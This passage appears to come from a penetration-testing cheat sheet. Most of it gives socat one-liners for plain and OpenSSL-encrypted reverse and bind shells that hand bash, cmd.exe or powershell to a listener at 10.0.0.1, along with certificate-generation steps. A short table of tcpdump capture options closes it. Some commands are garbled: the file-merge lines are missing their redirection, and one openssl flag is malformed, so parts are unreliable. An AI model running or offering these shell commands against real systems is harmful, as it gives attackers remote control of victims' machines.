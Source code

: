 ### Connect to a standard listener
```
socat TCP:10.0.0.1:4444 EXEC:powershell.exe,pipes
socat TCP4:10.0.0.1:4443 EXEC:'cmd.exe',pipes
socat TCP:10.0.0.1:4444 EXEC:"bash -li"
socat TCP4:10.0.0.1:4443 EXEC:/bin/bash
socat TCP:10.0.0.1:4444 -
socat - TCP4:10.0.0.130:4443
```

### Set up encrypted reverse shell
*Generate a certificate*

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

*Merge the 2 created files into .pem extension*

`cat shell.key shell.crt shell.pem`

*Set up listener on local machine*
```
socat OPENSSL-LISTEN:4444,cert=shell.pem,verify=0
socat -d -d OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork STDOUT
```

*Connect back to listener*
```
socat OPENSSL:10.0.0.1:4443,verify=0 EXEC:/bin/bash [LINUX]
socat OPENSSL:10.0.0.1:4443,verify=0 EXEC:'cmd.exe',pipes [WINDOWS]
```

### Set up encrypted bind shell
*Generate a certificate*
```
openssl req -newkey rsa:2048 -nodes -keyout bind.key -x509 -days 1000 -subj '/CN=www.mydom.com/O=My Company Name LTD./C=US' -out bind.crt`
```
*Merge the 2 created files into .pem file*

`cat bind.key bind.crt L bind.pem`

*Set up a listener on target machine*
```
socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:'cmd.exe',pipes [WINDOWS]
socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:/bin/bash [LINUX]
```

*Connect back to listener*
```
socat OPENSSL:10.0.0.1:4444,verify=0
socat - OPENSSL:10.0.0.130:4443,verify=0
```

## TCPdump
### Useful options
| Options | Description |
| ------- | ----------- |
| tcpdump -i any | Capture packets from any interfaces. "any" can be change accordingly to interfaces name. |
| tcpdump -i eth0 icmp | Capture packets of ICMP protocol from eth0 interface. |
| tcpdump port 80 | Capture packets coming from port 80(HTTP) from any interfaces. |
| tcpdump -D | Show available interfaces |
| tcpdump -i any -A | Print output in Ascii |
| tcpdump -i eth0 tcp/udp | Capture TCP/UDP packets only |